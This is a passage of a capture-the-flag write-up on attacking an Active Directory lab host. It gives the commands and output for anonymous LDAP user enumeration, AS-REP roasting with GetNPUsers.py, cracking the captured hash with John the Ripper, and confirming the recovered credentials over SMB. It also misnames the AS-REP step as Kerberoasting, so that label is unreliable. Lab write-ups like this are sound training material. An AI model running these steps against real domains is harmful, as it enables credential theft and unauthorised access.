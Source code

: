 ```output
svc-alfresco
andy
mark
santi
```

The enumerated usernames were saved to a file named `users.txt` using output redirection for use in subsequent attacks
```bash
nxc ldap 10.129.33.34 -u '' -p '' --users --kdc  forest.htb.local | awk '{print $5}'>users.txt

```
Kerberoasting was attempted using `GetNPUsers.py` to request Kerberos TGTs for users in `users.txt`. The command targeted the domain `htb.local` and output any recovered hashes to `userhash.txt`.
```bash
GetNPUsers.py htb.local/ -usersfile users.txt -dc-ip 10.129.33.34 -outputfile userhash.txt
```

The Kerberoasting attack was successful. The command `GetNPUsers.py` retrieved a Kerberos pre-authentication hash for the user `svc-alfresco`, which was saved to `userhash.txt`. This hash is crackable offline to recover the account's plaintext password.

```output
$krb5asrep$23$svc-alfresco@HTB.LOCAL:caf51edcfb98342fc880e1af854bdf17$3616afc2edfdef30aec88203370174d4694c9314e8584746520071a0ab9757467719127d93e98c4cbee38df2fb900563cde465689834d8265abb84b0c272679c85530c8b2ec1d7e366a14d9e19700c131f158c38c17613b6ee3eed72e8ab0c57260dec42a1dc52d8960a8a6ede265903c61d5ac158560682efe57132e51116e5b54cf116aa650af1f7d20b6de19b4201da52ac8bbea328ff1da731bc97484c2520a7864cf21a69b4fc6db32a0a6847c0dd51fde1dfdce3a73da545128ccef1473f1fcc8d0303c9786b92840e3240328fd778ac646c7d064022f39150350b74777ac6fecd755e
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
                            
```

```bash
echo '$krb5asrep$23$svc-alfresco@HTB.LOCAL:caf51edcfb98342fc880e1af854bdf17$3616afc2edfdef30aec88203370174d4694c9314e8584746520071a0ab9757467719127d93e98c4cbee38df2fb900563cde465689834d8265abb84b0c272679c85530c8b2ec1d7e366a14d9e19700c131f158c38c17613b6ee3eed72e8ab0c57260dec42a1dc52d8960a8a6ede265903c61d5ac158560682efe57132e51116e5b54cf116aa650af1f7d20b6de19b4201da52ac8bbea328ff1da731bc97484c2520a7864cf21a69b4fc6db32a0a6847c0dd51fde1dfdce3a73da545128ccef1473f1fcc8d0303c9786b92840e3240328fd778ac646c7d064022f39150350b74777ac6fecd755e'>hash.txt
```

The hash for `svc-alfresco` was successfully cracked using John the Ripper with the rockyou wordlist. The plaintext password was recovered as `s3rvice`.
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)     
1g 0:00:00:30 DONE (2025-10-20 18:35) 0.03261g/s 133260p/s 133260c/s 133260C/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
The credentials `svc-alfresco:s3rvice` were validated successfully via SMB, confirming initial access to the domain.
```bash
nxc smb 10.129.33.34  -u 'svc-alfresco' -p 's3rvice'  
SMB         10.129.33.34    445    FOREST           [*] Windows 10 / Server 2016 Build 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True) 
SMB         10.129.33.34    445    FOREST           [+] htb.local\svc-alfresco:s3rvice 
                                                            
```